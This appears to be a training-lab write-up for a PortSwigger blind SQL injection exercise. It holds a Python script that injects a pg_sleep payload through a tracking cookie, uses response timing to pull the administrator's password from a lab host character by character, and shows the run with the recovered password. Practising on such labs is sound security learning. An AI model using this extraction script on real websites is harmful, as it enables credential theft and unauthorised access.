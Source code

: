 ```python=
query = lambda pos,char,entry: f"';SELECT CASE WHEN (substring((SELECT password from users WHERE username='administrator'),{pos},1)='{char}') THEN pg_sleep(8) ELSE pg_sleep(0) END--"

print(query(1, 1, 1))
chars = string.ascii_letters + '0123456789' # + string.punctuation

print("Running!")

for e in range(0,100):
    for i in range(1, 100):
        found = False
        for c in chars:
            try:
                #r = requests.post("http://" + host + ":" + port + "/",data=payload(query(i,c,e)), timeout=delay)
                cookies = {'TrackingId': urllib.parse.quote_plus(query(i,c,e))}
                r = requests.get("https://0a5000360467da76c0cb03a9006300ca.web-security-academy.net/", cookies=cookies, timeout=delay)
                if "Welcome back" in r.text:
                    sys.stdout.write(c)
                    sys.stdout.flush()
                    found = True
                    break
                #print(r.text);exit()
                if e==0 and c == chars[-1] and i==1:
                    print(r.text)
                    exit()
            except requests.exceptions.Timeout:
                sys.stdout.write(c)
                sys.stdout.flush()
                found = True
                break
        if not found:
            break
    sys.stdout.write('\n')
 
print("\nDone! Try Harder!")

```

```powershell
PS D:\Users\zunmu\Documents\Stuff\Work In Progress\Projects> py '.\time_based_sql.py'
';SELECT CASE WHEN (substring((SELECT password from users WHERE username='administrator'),1,1)='1') THEN pg_sleep(8) ELSE pg_sleep(0) END--
Running!
xqqj6lfi1d5vnof55uyw
```

xqqj6lfi1d5vnof55uyw

### Blind SQL injection with out-of-band interaction
https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band
